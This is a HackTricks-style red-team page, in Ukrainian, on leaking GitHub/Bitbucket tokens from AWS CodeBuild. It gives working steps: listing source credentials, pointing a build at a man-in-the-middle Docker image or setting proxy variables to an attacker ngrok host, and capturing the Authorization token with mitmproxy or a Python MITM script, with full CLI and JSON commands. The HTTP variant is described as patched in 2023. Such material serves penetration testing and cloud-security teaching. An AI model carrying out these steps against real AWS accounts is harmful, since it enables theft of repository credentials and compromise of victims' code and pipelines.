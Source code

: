 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Відновлення токенів, налаштованих у Github/Bitbucket

Спочатку перевірте, чи є налаштовані облікові дані джерела, які ви могли б витікати:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Якщо ви виявите, що автентифікація, наприклад, до Github налаштована в обліковому записі, ви можете **екстрактувати** цей **доступ** (**GH token або OAuth token**), змусивши Codebuild **використовувати конкретний docker image** для виконання збірки проекту.

Для цього ви можете **створити новий проект Codebuild** або змінити **середовище** існуючого, щоб налаштувати **Docker image**.

Docker image, який ви можете використовувати, це [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Це дуже базовий Docker image, який налаштує **змінні середовища `https_proxy`**, **`http_proxy`** та **`SSL_CERT_FILE`**. Це дозволить вам перехопити більшість трафіку хоста, вказаного в **`https_proxy`** та **`http_proxy`**, і довіряти SSL CERT, вказаному в **`SSL_CERT_FILE`**.

1. **Створіть та завантажте свій власний Docker MitM image**
* Слідуйте інструкціям репозиторію, щоб налаштувати IP-адресу проксі та налаштувати свій SSL сертифікат і **збудуйте docker image**.
* **НЕ НАЛАШТОВУЙТЕ `http_proxy`**, щоб не перехоплювати запити до кінцевої точки метаданих.
* Ви можете використовувати **`ngrok`** як `ngrok tcp 4444`, щоб налаштувати проксі на вашому хості.
* Після того, як ви збудували Docker image, **завантажте його до публічного репозиторію** (Dockerhub, ECR...)
2. **Налаштуйте середовище**
* Створіть **новий проект Codebuild** або **змініть** середовище існуючого.
* Налаштуйте проект на використання **раніше згенерованого Docker image**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Налаштуйте MitM проксі на вашому хості**

* Як вказано в **Github репозиторії**, ви можете використовувати щось на зразок:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Версія **mitmproxy, що використовувалася, була 9.0.1**, повідомлялося, що з версією 10 це може не спрацювати.
{% endhint %}

4. **Запустіть збірку та захопіть облікові дані**

*   Ви можете побачити токен у заголовку **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Це також можна зробити з aws cli з чимось на кшталт

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Через протокол HTTP~~

{% hint style="success" %}
**Цю вразливість виправили AWS на деякий момент тижня 20 лютого 2023 року (я думаю, в п'ятницю). Тож зловмисник більше не може її зловживати :)**
{% endhint %}

Зловмисник з **підвищеними правами в CodeBuild може витікати токен Github/Bitbucket**, налаштований або, якщо права були налаштовані через OAuth, **тимчасовий токен OAuth, використаний для доступу до коду**.

* Зловмисник може додати змінні середовища **http\_proxy** та **https\_proxy** до проекту CodeBuild, вказуючи на свій комп'ютер (наприклад, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Потім змініть URL репозиторію github, щоб використовувати HTTP замість HTTPS, наприклад: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Тепер зловмисник зможе використовувати токен зі своєї машини, перерахувати всі привілеї, які він має, і (зловживати) легше, ніж безпосередньо використовуючи сервіс CodeBuild.
{% endhint %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
